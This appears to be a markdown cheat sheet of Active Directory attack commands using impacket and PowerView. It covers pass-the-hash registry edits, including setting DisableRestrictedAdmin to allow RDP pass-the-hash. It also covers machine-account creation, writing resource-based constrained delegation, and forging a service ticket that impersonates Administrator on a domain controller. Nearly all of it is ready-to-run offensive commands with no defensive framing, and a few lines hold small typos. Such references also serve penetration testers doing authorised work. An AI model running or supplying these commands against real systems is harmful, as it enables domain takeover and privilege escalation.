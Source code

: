 ## impacket reg query example
```
impacket-reg <domain>/<username>@<ip> -hashes ':<nthath>' query -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' 
```

## impacket reg add example (Allow rdp connection without password)
```
impacket-reg <domain>/<username>@<ip> -hashes ':<nthath>' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin' -vt 'REG_DWORD' -vd '0'
```

##  impacket reg del example
```
impacket-reg <domain>/<username>@<ip> -hashes ':<nthath>' delete -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin'
```

## impacket add a computer
```
addcomputer.py -computer-name '<computername>$' -computer-pass '<computer_password>' -dc-host <dc_ip> '<domain>/<username>:>user_password'
```

## impacket add rbcd from X (new_computer) to constrained (target_computer)
```
rbcd.py -delegate-from '<new_computer>$' -delegate-to '<target_computer>$' -dc-ip <dc_ip> -action 'write' -hashes ':<new_computer_owner_nthash' <domain>/'<target_computer>$'
```

## impacket Sliver Ticket for DC
```
getST.py -self -impersonate "Administrator" -altservice "cifs/<dc_hostname>" -k -no-pass -dc-ip <dc_ip> <domain>/'<dc_hostname>$'

export KRB5CCNAME=<ticket_from_output>.ccache
```



# PowerView
https://powersploit.readthedocs.io/en/stable/Recon/README/

## Recon Get Groups
```
Get-DomainGroup -domain <domain> | select samaccountname
```
